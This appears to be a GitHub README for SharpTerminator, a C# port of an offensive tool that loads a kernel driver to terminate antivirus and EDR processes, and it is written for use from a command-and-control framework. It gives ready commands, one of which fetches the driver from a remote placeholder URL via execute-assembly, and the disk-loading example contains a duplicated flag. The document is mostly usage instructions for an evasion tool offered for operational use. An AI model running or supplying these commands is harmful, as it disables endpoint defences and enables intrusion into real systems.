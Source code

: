 # SharpTerminator

C# port of ZeroMemoryEx's Terminator, so all hail goes to him.

# Usage

You can download the driver from a remote URL using SharpTerminator and load it to terminate AV/EDR processes, or you can directly load it to the disk to perform the same operation.

In fact, there is no difference between them; if you don't want to use the upload function in your C2, you can use the other one.

Loading from remote url:
```
execute-assembly SharpTerminator.exe --url "http://remoteurl.com:80/Terminator.sys"
```
Loading from disk:
```
SharpTerminator.exe --disk SharpTerminator.exe --disk "C:\path\to\driver\Terminator.sys"
```


### Download driver from remote url and terminate AV/EDR:
![image](https://github.com/mertdas/SharpTerminator/assets/48562581/8eb24a46-8c00-4cd3-8a73-42409b234114)

### Load driver from disk and terminate AV/EDR:

![image](https://github.com/mertdas/SharpTerminator/assets/48562581/232b67b0-f5c6-44cc-936d-d6acdb617a74)

# Credit
ZeroMemoryEx https://github.com/ZeroMemoryEx/Terminator<br>
Spyboy :)

